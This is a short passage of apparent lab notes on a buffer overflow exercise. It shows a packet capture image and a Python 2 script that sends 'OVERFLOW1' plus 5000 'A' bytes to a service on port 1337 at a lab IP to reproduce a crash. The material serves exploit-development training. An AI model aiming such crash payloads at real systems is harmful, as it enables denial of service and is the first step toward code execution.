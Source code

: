Wireshark filters

![Packet that crash the server](../../zzz_res/attachments/Pasted_image_20210502172357.png)

Packet that crash the server

# The Bug

## Replicate the crash

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 "
fuzz = "A" * 5000

print "Fuzzing with %s bytes" % len(fuzz)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(cmd + "/.:/"+fuzz)
        s.close()
except:
        print "\nCould not connect!"

```
